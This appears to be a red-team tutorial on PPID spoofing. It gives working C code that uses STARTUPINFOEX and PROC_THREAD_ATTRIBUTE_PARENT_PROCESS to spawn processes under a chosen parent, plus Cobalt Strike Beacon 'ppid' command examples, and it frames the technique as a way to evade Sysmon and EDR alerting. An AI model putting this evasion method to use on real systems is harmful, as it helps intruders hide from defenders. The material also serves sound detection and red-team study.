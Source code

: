 When using the CreateProcess API, by default, the resulting process will spawn as a child of the caller.  This is why in the previous section we saw rundll32 and notepad spawn as children of PowerShell.  However, the "PPID spoofing" technique allows the caller to change the parent process for the spawned process.  So if our Beacon was running in powershell.exe, we can spawn processes as children of a completely different process, such as explorer.exe.

This will cause applications such as Sysmon to log the process creation under the new parent.  This is especially useful if you have a Beacon running in an unusual process (e.g. from an initial compromise, lateral movement or some other exploit delivery) and process creation events would raise high severity alerts or be blocked outright.

The magic is achieved in the [STARTUPINFOEX](https://docs.microsoft.com/en-us/windows/win32/api/winbase/ns-winbase-startupinfoexw) struct, which has an **LPPROC_THREAD_ATTRIBUTE_LIST** property.  This allows us to pass additional attributes to the CreateProcess call.  The attributes themselves are listed [here](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-updateprocthreadattribute).  For the purpose of PPID spoofing, the one of interest is **PROC_THREAD_ATTRIBUTE_PARENT_PROCESS**.

  The lpValue parameter is a pointer to **a handle to a process** to use instead of the calling process as the parent for the process being created. The process to use must have the PROCESS_CREATE_PROCESS access right.

Before looking at Cobalt Strike, let's do this in code.  I'm going to bring in the target parent PID on the command line for ease of use.  Then initialise the STARTUPINFOEX struct.

```c
#include <iostream>
#include <Windows.h>
#include <winternl.h>

int main(int argc, const char* argv[])
{
	// Get parent process PID from the command line
	DWORD parentPid = atoi(argv[1]);

	// Initialise STARTUPINFOEX
	STARTUPINFOEX sie = { sizeof(sie) };
}
```

  

The next step is to allocate a region of memory to hold the attribute list, but we need to know the required size first.  The list can have multiple attributes, but as we're only interested in PROC_THREAD_ATTRIBUTE_PARENT_PROCESS, the size is **1**.  So we call InitializeProcThreadAttributeList and provide a NULL destination, but the lpSize variable will become populated with the size we need.  Even though this API returns a bool, this call will always return FALSE.

```c
// Call InitializeProcThreadAttributeList once
// it will return FALSE but populate lpSize
SIZE_T lpSize;
InitializeProcThreadAttributeList(NULL, 1, 0, &lpSize);
```

  

With that, use malloc to allocate the memory region on the lpAttributeList property of STARTUPINFOEX.  Then we call InitializeProcThreadAttributeList again, but this time, set the correct location.  This time, it should return TRUE.

```c
// Allocate memory for the attribute list on STARTUPINFOEX
sie.lpAttributeList = (PPROC_THREAD_ATTRIBUTE_LIST)malloc(lpSize);

// Call InitializeProcThreadAttributeList again, it should return TRUE this time
if (!InitializeProcThreadAttributeList(sie.lpAttributeList, 1, 0, &lpSize))
{
	printf("InitializeProcThreadAttributeList failed. Error code: %d.\n", GetLastError());
	return 0;
}
```

  

Get a handle to the parent process and pass that into a call to UpdateProcThreadAttribute.

```c
// Get the handle to the process to act as the parent
HANDLE hParentProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, parentPid);

// Call UpdateProcThreadAttribute, should return TRUE
if (!UpdateProcThreadAttribute(sie.lpAttributeList, 0, PROC_THREAD_ATTRIBUTE_PARENT_PROCESS, &hParentProcess, sizeof(HANDLE), NULL, NULL))
{
	printf("UpdateProcThreadAttribute failed. Error code: %d.\n", GetLastError());
	return 0;
}
```

  

All that's left to do is call CreateProcess, ensuring to pass the EXTENDED_STARTUPINFO_PRESENT flag.

```c
// Call CreateProcess and pass the EXTENDED_STARTUPINFO_PRESENT flag
PROCESS_INFORMATION pi;

if (!CreateProcess(
	L"C:\\Windows\\System32\\notepad.exe",
	NULL,
	0,
	0,
	FALSE,
	EXTENDED_STARTUPINFO_PRESENT,
	NULL,
	L"C:\\Windows\\System32",
	&sie.StartupInfo,
	&pi))
{
	printf("CreateProcess failed. Error code: %d.\n", GetLastError());
	return 0;
}

printf("PID created: %d", pi.dwProcessId);
return 1;
```


![[31. PPID Spoofing.png]]

A well-behaved program will also call DeleteProcThreadAttributeList after the process has been created.

```c
DeleteProcThreadAttributeList(sie.lpAttributeList);
```

  

Cobalt Strike's `ppid` command can be used to set the parent process for all Beacon post-ex capabilities that spawn a process. Everything from `shell`, `run`, `execute-assembly`, `shspawn` and so on.

As we know, Beacon will use itself as the parent by default.  Running `shell ping`, we can see cmd.exe is spawned as a child of powershell.exe

![[32.  PPID Spoofing.png]]

Use the PPID command to change it to explorer and run `shell ping` again.

```c
beacon> ppid 2704
[*] Tasked beacon to spoof 2704 as parent process
```

  

cmd.exe is now a child of explorer.

![[33. PPID Spoofing.png]]

To reset the PPID back to the Beacon process, use the `ppid` command without parameters.

```c
beacon> ppid
[*] Tasked beacon to use itself as parent process
```

